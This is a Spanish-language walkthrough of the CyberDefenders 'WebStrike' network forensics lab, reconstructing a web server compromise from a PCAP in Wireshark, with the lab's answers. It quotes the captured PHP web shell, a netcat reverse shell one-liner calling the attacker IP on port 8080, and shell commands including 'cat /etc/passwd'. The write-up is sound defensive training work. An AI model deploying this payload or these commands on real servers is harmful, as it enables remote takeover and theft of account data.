





# WebStrike Lab – Network Forensics

## 1. Descripción del laboratorio
Este laboratorio consiste en el análisis de un archivo PCAP para investigar el posible compromiso de un servidor web.  
El objetivo es identificar cómo ocurrió la intrusión y qué tipo de actividad maliciosa se llevó a cabo.

## 2. Objetivos
- Analizar tráfico de red sospechoso.
- Identificar posible subida de web shell.
- Detectar comunicación de tipo reverse shell / C2.
- Identificar indicios de exfiltración de datos.
- Practicar análisis forense de red con Wireshark.

## 3. Herramientas utilizadas
- Wireshark

## 4. Metodología de análisis
1. Revisión general del tráfico de red en el PCAP.
2. Filtrado de tráfico relevante (HTTP, conexiones sospechosas, transferencias de datos).
3. Identificación de peticiones y respuestas anómalas.
4. Análisis de posibles cargas maliciosas y comunicaciones externas.
5. Correlación de eventos para reconstruir la línea temporal del ataque.

## 5. Análisis paso a paso

### 5.1 Inicio del laboratorio y evidencias

El laboratorio utilizado es **WebStrike** (CyberDefenders):
https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/

Al iniciar la máquina, se abre un entorno Linux con una carpeta **Start here** en el escritorio. Dentro se incluyen los artefactos del reto y accesos directos a herramientas.

Capturas:
- Entorno inicial de la máquina:
  

- Carpeta "Start here":
  

### 5.2 Acceso a herramientas e importación del PCAP

Dentro de `Start here` se encuentra la carpeta `Tools`, donde está disponible **Wireshark**.

Pasos:
1. Abrir `Start here`.
2. Entrar en `Tools`.
3. Ejecutar Wireshark.
4. Importar el PCAP proporcionado (por ejemplo: `WebStrike.pcap`) desde la carpeta `Artifacts`.

Capturas:
- Carpeta Tools:
  

- Importación del PCAP en Wireshark:
  

### 5.3 Vista inicial del tráfico y columnas relevantes

Una vez cargado el PCAP, se visualizan los paquetes capturados. En una primera revisión se observa tráfico principalmente **TCP** y **HTTP**, lo que encaja con un escenario de servidor web.

Para facilitar el análisis, añadí las columnas de **Source Port** y **Destination Port**, ya que los puertos ayudan a identificar:
- Servicio atacado (por ejemplo HTTP/80)
- Puerto origen del cliente
- Posibles conexiones adicionales (reverse shell, exfiltración, etc.)

Cómo añadir columnas en Wireshark:
1. Click sobre cualquier paquete.
2. En el panel de detalles, localizar `Transmission Control Protocol`.
3. Click derecho sobre `Source Port` y `Destination Port`.
4. Seleccionar **Apply as Column** (en algunas versiones aparece como “Apply as Column”).
   - Alternativa: `Ctrl + Shift + I` según configuración/version.

Captura:
- Paquetes y columnas con puertos:
  

### 5.4 Identificación del flujo inicial (cliente → servidor web)

Con las columnas de puertos ya visibles, se identifica rápidamente un flujo que destaca:

- IP origen: `117.11.88.124`
- Puerto origen: `43848`
- IP destino: `24.49.63.79`
- Puerto destino: `80`
- Protocolo: `TCP` y posteriormente `HTTP`

Esto indica que `117.11.88.124` actúa como cliente y establece conexión contra un servicio web HTTP en `24.49.63.79:80`.

Además, se observa el patrón típico de una sesión web:
- Handshake TCP (SYN/SYN-ACK/ACK)
- Peticiones HTTP (GET/POST)
- ACKs intercalados propios del flujo TCP
---

## 6. Preguntas del laboratorio (con evidencias)

### 6.1 Pregunta 1: Origen geográfico de la IP atacante

La pregunta solicita la ciudad de origen del ataque. Dado que el laboratorio no tiene acceso a Internet, la IP se consulta desde un servicio externo.

IP identificada como atacante por el flujo inicial:
- `117.11.88.124` (cliente que inicia conexión al servidor web)

Se realizó la consulta con:
- VirusTotal (información ASN/ISP)
- IP2Location (geolocalización más detallada)

Resultados relevantes:
- ASN: `4837`
- Organización: `China Unicom China169 Backbone`
- País: `China (CN)`
- Ciudad reportada: `Tianjin`

Respuesta:
- **Tianjin**



---

### 6.2 Pregunta 2: User-Agent completo del atacante

Para identificar el User-Agent, se selecciona un paquete HTTP (por ejemplo un `GET / HTTP/1.1`) y se inspecciona el contenido del flujo.

Pasos en Wireshark:
1. Seleccionar un paquete HTTP del flujo `117.11.88.124 → 24.49.63.79`.
2. Click derecho → **Follow** → **HTTP Stream**.
3. Revisar las cabeceras de la petición.

En el stream se observa el campo `User-Agent`:

`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

Respuesta:
- **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**

Captura:
- HTTP Stream mostrando el User-Agent:
  

---

### 6.3 Pregunta 3: Nombre del web shell subido con éxito

Para detectar explotación/vulnerabilidad, se revisan peticiones HTTP tipo **POST**, especialmente hacia endpoints de subida.

Filtro útil para localizar subidas:
http.request.method == "POST"


Al revisar el tráfico, se identifica una solicitud POST hacia:
- `/reviews/upload.php`

Al seguir el HTTP stream de esa petición se observa un formulario `multipart/form-data` donde se sube un archivo con nombre:

- `image.jpg.php`

Además, la respuesta del servidor confirma la subida exitosa con el mensaje:
- `File uploaded successfully`

Este contenido es consistente con una web shell / payload, ya que el archivo contiene código PHP y ejecuta comandos para abrir una conexión (reverse shell) hacia la IP atacante.

Respuesta:
- **image.jpg.php**

Captura recomendada:
- HTTP Stream del POST mostrando el filename y la respuesta:
  

---

### 6.4 Pregunta 4: Directorio usado por la web para almacenar archivos subidos

Para identificar el directorio donde la aplicación web almacena los archivos subidos, se sigue la recomendación del propio laboratorio:

> Apply the filter `http.request.uri contains "<Uploaded_Filename>"` and analyze the packet's HTTP URI to locate the upload directory.

Dado que en la pregunta anterior se identificó que el archivo subido es:

- `image.jpg.php`

Se aplica el siguiente filtro en Wireshark:
http.request.uri contains "image.jpg.php"

Este filtro permite localizar cualquier petición HTTP que intente acceder directamente al archivo subido.

Al aplicar el filtro, se observa una petición **GET** realizada por el atacante con la siguiente URI:

GET /reviews/uploads/image.jpg.php HTTP/1.1


Esto indica que, tras subir el archivo malicioso, el atacante intenta acceder a él directamente para ejecutarlo.

Captura:
- Petición GET al archivo subido:
  

Además, al seguir el **HTTP Stream** de ese paquete, se confirma la ruta completa utilizada por la aplicación web:

/reviews/uploads/image.jpg.php


Lo que demuestra que la aplicación guarda los archivos subidos en el directorio:

/reviews/uploads/


Respuesta:
- **/reviews/uploads/**

### 6.5 Pregunta 5: Puerto objetivo para la comunicación saliente no autorizada

La pregunta solicita identificar **qué puerto, abierto en la máquina del atacante, fue utilizado por la web shell para establecer comunicación saliente**.

El propio laboratorio da una pista clara:

> Analyze the uploaded file by the attacker, focusing on POST HTTP requests  
> Apply `http.request.method == POST`, right-click the POST packet, and select "Follow > HTTP Stream" to view the uploaded file content. Use `tcp.stream eq 4`.

#### 6.5.1 Análisis del POST y del payload subido

Se aplica el filtro:

http.request.method == "POST"


Se localiza la petición POST correspondiente a la subida del archivo malicioso (`image.jpg.php`) y se sigue el **HTTP Stream** de esa conexión.

En el contenido del archivo subido se observa el siguiente payload PHP:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
```
Este código ejecuta un reverse shell utilizando nc (netcat), conectándose a:

IP del atacante: 117.11.88.124

Puerto del atacante: 8080

Es decir, el servidor comprometido intenta abrir una conexión saliente hacia la máquina del atacante en el puerto 8080.

Captura
- HTTP Stream mostrando el payload del web shell:
  
  
6.5.2 Confirmación en el tráfico de red

Además del payload, en el PCAP se observan conexiones TCP posteriores desde el servidor hacia el atacante usando el puerto 8080, lo que confirma que la comunicación efectivamente se intenta establecer por ese puerto.

Esto refuerza que:

El puerto objetivo del atacante para recibir la conexión del reverse shell es 8080.

Respuesta:

8080

### 6.6 Pregunta 6: Archivo que el atacante intentó exfiltrar

El objetivo de esta pregunta es identificar qué información sensible intentó obtener el atacante tras comprometer el servidor.

Según las pistas del laboratorio, la exfiltración debe buscarse en el tráfico saliente asociado al puerto utilizado por el reverse shell, previamente identificado como **8080**.

#### 6.6.1 Filtrado del tráfico saliente

Se aplica el siguiente filtro en Wireshark:

tcp.dstport == 8080


Este filtro muestra el tráfico dirigido al puerto 8080 en la máquina del atacante, es decir, la sesión interactiva establecida tras la ejecución del web shell.

#### 6.6.2 Análisis del TCP Stream

Se selecciona uno de los paquetes resultantes y se sigue el flujo completo:

- Click derecho → **Follow** → **TCP Stream**

En el contenido del stream se observa una sesión de shell interactiva en la que el atacante ejecuta varios comandos, entre ellos:

whoami
uname -a
pwd
ls /home
cat /etc/passwd


El comando:

cat /etc/passwd

muestra claramente que el atacante está accediendo al archivo **/etc/passwd**, que contiene información sobre las cuentas del sistema, lo que constituye un claro intento de acceso y posible exfiltración de datos sensibles.

Captura recomendada:
- TCP Stream mostrando el comando `cat /etc/passwd` y su salida:
  

Respuesta:
- **passwd**


## 7. Conclusión

Este laboratorio representa un escenario realista de **compromiso de un servidor web mediante la subida de una web shell**, seguido de **ejecución remota de comandos, establecimiento de un reverse shell y acceso a información sensible**.

A través del análisis del PCAP fue posible reconstruir toda la cadena del ataque:

1. El atacante inicia conexión HTTP contra el servidor web.
2. Se explota una funcionalidad vulnerable de subida de archivos para cargar una web shell (`image.jpg.php`).
3. El atacante accede al archivo subido y ejecuta código en el servidor.
4. Se establece una conexión saliente tipo **reverse shell** hacia el atacante por el puerto 8080.
5. A través de esa sesión interactiva, el atacante ejecuta comandos y accede a información sensible, como el archivo `/etc/passwd`, indicando un intento de **exfiltración de datos**.

Desde el punto de vista defensivo, este laboratorio permitió practicar y reforzar habilidades clave de **Network Forensics e Incident Response**, incluyendo:

- Análisis de tráfico de red en archivos PCAP.
- Uso de Wireshark para identificar flujos sospechosos y seguir sesiones completas (HTTP y TCP streams).
- Detección de actividad maliciosa, como subidas de archivos no autorizadas, ejecución remota de comandos y comunicaciones tipo C2 / reverse shell.
- Correlación de eventos para reconstruir una línea temporal del ataque a partir del tráfico de red.
- Identificación del impacto del incidente mediante el análisis de acciones realizadas por el atacante tras la intrusión.

En conjunto, este ejercicio refuerza la importancia de la **monitorización del tráfico de red**, la **validación de funcionalidades de subida de archivos en aplicaciones web** y la capacidad de un analista Blue Team para **detectar, investigar y comprender un compromiso real** basándose únicamente en evidencias de red.

